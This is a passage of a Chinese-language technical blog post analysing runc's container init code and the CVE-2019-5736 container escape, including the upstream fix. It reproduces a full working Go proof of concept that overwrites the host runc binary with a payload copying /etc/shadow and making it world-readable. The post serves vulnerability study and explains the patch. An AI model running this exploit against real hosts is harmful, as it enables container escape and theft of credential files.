			return fmt.Errorf("unable to convert _LIBCONTAINER_FIFOFD=%s to int: %s", envFifoFd, err)
		}
	}

    ...

    i, err := newContainerInit(it, pipe, consoleSocket, fifofd, logPipeFd)
    if err != nil {
        return err
    }

    // If Init succeeds, syscall.Exec will not return, hence none of the defers will be called.
    return i.Init()
}
```

`StartInitialization()`完成以下步骤
- 从环境变量中获取pipe管道描述符(`_LIBCONTAINER_INITPIPE`)、init type(`_LIBCONTAINER_INITTYPE`)
- 执行`newContainerInit()`函数，由于之前`newInitProcess()`函数中设置了环境变量为`"standard"`，所以这里`newContainerInit()`函数会创建`linuxStandardInit`类型对象并返回
  
    ```go
    func (c *linuxContainer) newInitProcess(p *Process, cmd *exec.Cmd, messageSockPair, logFilePair filePair) (*initProcess, error) {
	    cmd.Env = append(cmd.Env, "_LIBCONTAINER_INITTYPE="+string(initStandard))
        ...
    }
    ```

接下来执行`linuxStandardInit`实现的`Init()`，该函数最终会将进程的命令替换为用户的命令（`unix.Exec(name, l.config.Args[0:], os.Environ())`）

```go
func (l *linuxStandardInit) Init() error {
    runtime.LockOSThread()
    defer runtime.UnlockOSThread()
    if !l.config.Config.NoNewKeyring {
        if err := selinux.SetKeyLabel(l.config.ProcessLabel); err != nil {
            return err
        }
        defer selinux.SetKeyLabel("")
        ringname, keepperms, newperms := l.getSessionRingParams()

        // Do not inherit the parent's session keyring.
        if sessKeyId, err := keys.JoinSessionKeyring(ringname); err != nil {
            // If keyrings aren't supported then it is likely we are on an
            // older kernel (or inside an LXC container). While we could bail,
            // the security feature we are using here is best-effort (it only
            // really provides marginal protection since VFS credentials are
            // the only significant protection of keyrings).
            //
            // TODO(cyphar): Log this so people know what's going on, once we
            //               have proper logging in 'runc init'.
            if errors.Cause(err) != unix.ENOSYS {
                return errors.Wrap(err, "join session keyring")
            }
        } else {
            // Make session keyring searcheable. If we've gotten this far we
            // bail on any error -- we don't want to have a keyring with bad
            // permissions.
            if err := keys.ModKeyringPerm(sessKeyId, keepperms, newperms); err != nil {
                return errors.Wrap(err, "mod keyring permissions")
            }
        }
    }

    if err := setupNetwork(l.config); err != nil {
        return err
    }
    if err := setupRoute(l.config.Config); err != nil {
        return err
    }

    // initialises the labeling system
    selinux.GetEnabled()
    if err := prepareRootfs(l.pipe, l.config); err != nil {
        return err
    }
    // Set up the console. This has to be done *before* we finalize the rootfs,
    // but *after* we've given the user the chance to set up all of the mounts
    // they wanted.
    if l.config.CreateConsole {
        if err := setupConsole(l.consoleSocket, l.config, true); err != nil {
            return err
        }
        if err := system.Setctty(); err != nil {
            return errors.Wrap(err, "setctty")
        }
    }

    // Finish the rootfs setup.
    if l.config.Config.Namespaces.Contains(configs.NEWNS) {
        if err := finalizeRootfs(l.config.Config); err != nil {
            return err
        }
    }

    if hostname := l.config.Config.Hostname; hostname != "" {
        if err := unix.Sethostname([]byte(hostname)); err != nil {
            return errors.Wrap(err, "sethostname")
        }
    }
    if err := apparmor.ApplyProfile(l.config.AppArmorProfile); err != nil {
        return errors.Wrap(err, "apply apparmor profile")
    }

    for key, value := range l.config.Config.Sysctl {
        if err := writeSystemProperty(key, value); err != nil {
            return errors.Wrapf(err, "write sysctl key %s", key)
        }
    }
    for _, path := range l.config.Config.ReadonlyPaths {
        if err := readonlyPath(path); err != nil {
            return errors.Wrapf(err, "readonly path %s", path)
        }
    }
    for _, path := range l.config.Config.MaskPaths {
        if err := maskPath(path, l.config.Config.MountLabel); err != nil {
            return errors.Wrapf(err, "mask path %s", path)
        }
    }
    pdeath, err := system.GetParentDeathSignal()
    if err != nil {
        return errors.Wrap(err, "get pdeath signal")
    }
    if l.config.NoNewPrivileges {
        if err := unix.Prctl(unix.PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0); err != nil {
            return errors.Wrap(err, "set nonewprivileges")
        }
    }
    // Tell our parent that we're ready to Execv. This must be done before the
    // Seccomp rules have been applied, because we need to be able to read and
    // write to a socket.
    if err := syncParentReady(l.pipe); err != nil {
        return errors.Wrap(err, "sync ready")
    }
    if err := selinux.SetExecLabel(l.config.ProcessLabel); err != nil {
        return errors.Wrap(err, "set process label")
    }
    defer selinux.SetExecLabel("")
    // Without NoNewPrivileges seccomp is a privileged operation, so we need to
    // do this before dropping capabilities; otherwise do it as late as possible
    // just before execve so as few syscalls take place after it as possible.
    if l.config.Config.Seccomp != nil && !l.config.NoNewPrivileges {
        if err := seccomp.InitSeccomp(l.config.Config.Seccomp); err != nil {
            return err
        }
    }
    if err := finalizeNamespace(l.config); err != nil {
        return err
    }
    // finalizeNamespace can change user/group which clears the parent death
    // signal, so we restore it here.
    if err := pdeath.Restore(); err != nil {
        return errors.Wrap(err, "restore pdeath signal")
    }
    // Compare the parent from the initial start of the init process and make
    // sure that it did not change.  if the parent changes that means it died
    // and we were reparented to something else so we should just kill ourself
    // and not cause problems for someone else.
    if unix.Getppid() != l.parentPid {
        return unix.Kill(unix.Getpid(), unix.SIGKILL)
    }
    // Check for the arg before waiting to make sure it exists and it is
    // returned as a create time error.
    name, err := exec.LookPath(l.config.Args[0])
    if err != nil {
        return err
    }
    // Close the pipe to signal that we have completed our init.
    logrus.Debugf("init: closing the pipe to signal completion")
    l.pipe.Close()

    // Close the log pipe fd so the parent's ForwardLogs can exit.
    if err := unix.Close(l.logFd); err != nil {
        return newSystemErrorWithCause(err, "closing log pipe fd")
    }

    // Wait for the FIFO to be opened on the other side before exec-ing the
    // user process. We open it through /proc/self/fd/$fd, because the fd that
    // was given to us was an O_PATH fd to the fifo itself. Linux allows us to
    // re-open an O_PATH fd through /proc.
    fd, err := unix.Open("/proc/self/fd/"+strconv.Itoa(l.fifoFd), unix.O_WRONLY|unix.O_CLOEXEC, 0)
    if err != nil {
        return newSystemErrorWithCause(err, "open exec fifo")
    }
    if _, err := unix.Write(fd, []byte("0")); err != nil {
        return newSystemErrorWithCause(err, "write 0 exec fifo")
    }
    // Close the O_PATH fifofd fd before exec because the kernel resets
    // dumpable in the wrong order. This has been fixed in newer kernels, but
    // we keep this to ensure CVE-2016-9962 doesn't re-emerge on older kernels.
    // N.B. the core issue itself (passing dirfds to the host filesystem) has
    // since been resolved.
    // https://github.com/torvalds/linux/blob/v4.9/fs/exec.c#L1290-L1318
    unix.Close(l.fifoFd)
    // Set seccomp as close to execve as possible, so as few syscalls take
    // place afterward (reducing the amount of syscalls that users need to
    // enable in their seccomp profiles).
    if l.config.Config.Seccomp != nil && l.config.NoNewPrivileges {
        if err := seccomp.InitSeccomp(l.config.Config.Seccomp); err != nil {
            return newSystemErrorWithCause(err, "init seccomp")
        }
    }

    s := l.config.SpecState
    s.Pid = unix.Getpid()
    s.Status = specs.StateCreated
    if err := l.config.Config.Hooks[configs.StartContainer].RunHooks(s); err != nil {
        return err
    }

    if err := unix.Exec(name, l.config.Args[0:], os.Environ()); err != nil {
        return newSystemErrorWithCause(err, "exec user process")
    }
    return nil
}
```
## 0x02 调用链梳理

[流程图](https://www.processon.com/view/link/607ee8e01e08534f373243e6)

## 0x03 runc漏洞poc分析

以[https://github.com/Frichetten/CVE-2019-5736-PoC](https://github.com/Frichetten/CVE-2019-5736-PoC)为例

```go
package main

// Implementation of CVE-2019-5736
// Created with help from @singe, @_cablethief, and @feexd.
// This commit also helped a ton to understand the vuln
// https://github.com/lxc/lxc/commit/6400238d08cdf1ca20d49bafb85f4e224348bf9d
import (
    "fmt"
    "io/ioutil"
    "os"
    "strconv"
    "strings"
)

// This is the line of shell commands that will execute on the host
var payload = "#!/bin/bash \n cat /etc/shadow > /tmp/shadow && chmod 777 /tmp/shadow"

func main() {
    // First we overwrite /bin/sh with the /proc/self/exe interpreter path
    fd, err := os.Create("/bin/sh")
    if err != nil {
        fmt.Println(err)
        return
    }
    fmt.Fprintln(fd, "#!/proc/self/exe")
    err = fd.Close()
    if err != nil {
        fmt.Println(err)
        return
    }
    fmt.Println("[+] Overwritten /bin/sh successfully")

    // Loop through all processes to find one whose cmdline includes runcinit
    // This will be the process created by runc
    var found int
    for found == 0 {
        pids, err := ioutil.ReadDir("/proc")
        if err != nil {
            fmt.Println(err)
            return
        }
        for _, f := range pids {
            fbytes, _ := ioutil.ReadFile("/proc/" + f.Name() + "/cmdline")
            fstring := string(fbytes)
            if strings.Contains(fstring, "runc") {
                fmt.Println("[+] Found the PID:", f.Name())
                found, err = strconv.Atoi(f.Name())
                if err != nil {
                    fmt.Println(err)
                    return
                }
            }
        }
    }

    // We will use the pid to get a file handle for runc on the host.
    var handleFd = -1
    for handleFd == -1 {
        // Note, you do not need to use the O_PATH flag for the exploit to work.
        handle, _ := os.OpenFile("/proc/"+strconv.Itoa(found)+"/exe", os.O_RDONLY, 0777)
        if int(handle.Fd()) > 0 {
            handleFd = int(handle.Fd())
        }
    }
    fmt.Println("[+] Successfully got the file handle")

    // Now that we have the file handle, lets write to the runc binary and overwrite it
    // It will maintain it's executable flag
    for {
        writeHandle, _ := os.OpenFile("/proc/self/fd/"+strconv.Itoa(handleFd), os.O_WRONLY|os.O_TRUNC, 0700)
        if int(writeHandle.Fd()) > 0 {
            fmt.Println("[+] Successfully got write handle", writeHandle)
            writeHandle.Write([]byte(payload))
            return
        }
    }
}
```

[Poc原理介绍](https://github.com/Frichetten/CVE-2019-5736-PoC#step-by-step-explanation)

- 改写容器中的`/bin/sh`文件，写入`#!/proc/self/exe`
- `#!/proc/self/exe`使得runc执行`/bin/sh`时会执行自身
- 在容器中找到runc进程的进程号id，也就是上述runc调用链中的runc init进程，并尝试去获取`/proc/id/exe`（即宿主机上的runc文件）。而runc init正在执行时，系统是不允许往runc写文件的，因此以读的方式打开
- 当runc init结束之后，再从`/proc/self/fd`中以写方式打开runc的文件描述符，写入恶意代码

[/proc虚拟文件系统介绍](https://sites.google.com/site/readliner/study/linux/proc-fs-1)



## 0x04 修复代码分析



引入的`ensure_cloned_binary()`函数会创建克隆的runc文件并执行`fexecve()`函数替换当前进程映像

```c
//libcontainer/nsenter/cloned_binary.c
int ensure_cloned_binary(void)
{
    int execfd;
    char **argv = NULL;

    /* Check that we're not self-cloned, and if we are then bail. */
    int cloned = is_self_cloned();
    if (cloned > 0 || cloned == -ENOTRECOVERABLE)
        return cloned;

    if (fetchve(&argv) < 0)
        return -EINVAL;
    
    //创建克隆文件
    execfd = clone_binary();
    if (execfd < 0)
        return -EIO;

    if (putenv(CLONED_BINARY_ENV "=1"))
        goto error;

    fexecve(execfd, argv, environ);
    error:
    close(execfd);
    return -ENOEXEC;
}
```

我们还可以在被调用的`clone_binary()`函数中看到克隆的逻辑：

- 创建新的文件
- 以读方式打开`/proc/self/exe`，也就是宿主机上的runc文件
- `sendfile()` I/O函数将runc文件内容写入到新的文件中
- 返回新的文件描述符

```c
static int clone_binary(void)
{
    int binfd, execfd;
    struct stat statbuf = { };
    size_t sent = 0;
    int fdtype = EFD_NONE;

    /*
     * Before we resort to copying, let's try creating an ro-binfd in one shot
     * by getting a handle for a read-only bind-mount of the execfd.
     */
    execfd = try_bindfd();
    if (execfd >= 0)
        return execfd;

    /*
     * Dammit, that didn't work -- time to copy the binary to a safe place we
     * can seal the contents.
     */
    // 创建空的克隆文件，待写入
    execfd = make_execfd(&fdtype);
    if (execfd < 0 || fdtype == EFD_NONE)
        return -ENOTRECOVERABLE;
    
    // 这里的应该是原本的runc
    binfd = open("/proc/self/exe", O_RDONLY | O_CLOEXEC);
    if (binfd < 0)
        goto error;

    if (fstat(binfd, &statbuf) < 0)
        goto error_binfd;

    //写入内容
    while (sent < statbuf.st_size) {
        int n = sendfile(execfd, binfd, NULL, statbuf.st_size - sent);
        if (n < 0) {
            /* sendfile can fail so we fallback to a dumb user-space copy. */
            n = fd_to_fd(execfd, binfd);
            if (n < 0)
                goto error_binfd;
        }
        sent += n;
    }
    close(binfd);
    if (sent != statbuf.st_size)
        goto error;

    if (seal_execfd(&execfd, fdtype) < 0)
        goto error;

    return execfd;

    error_binfd:
    close(binfd);
    error:
    close(execfd);
    return -EIO;
}
```

## 参考链接

- [runc源码分析(一)-create和start流程-v1.0.0-rc2](https://fankangbest.github.io/2017/11/22/runc%E6%BA%90%E7%A0%81%E5%88%86%E6%9E%90(%E4%B8%80)-create%E5%92%8Cstart%E6%B5%81%E7%A8%8B-v1-0-0-rc2/)
- [runc 启动容器过程分析（附 CVE-2019-5736 实现过程）](https://imkira.com/runc/)
- [CVE-2019-5736复现及分析](https://notes.sjtu.edu.cn/s/8USeKk5DR#docker-runc-CVE-2019-5736)
- [CVE-2019-5736 patch](https://github.com/opencontainers/runc/commit/0a8e4117e7f715d5fbeef398405813ce8e88558b)


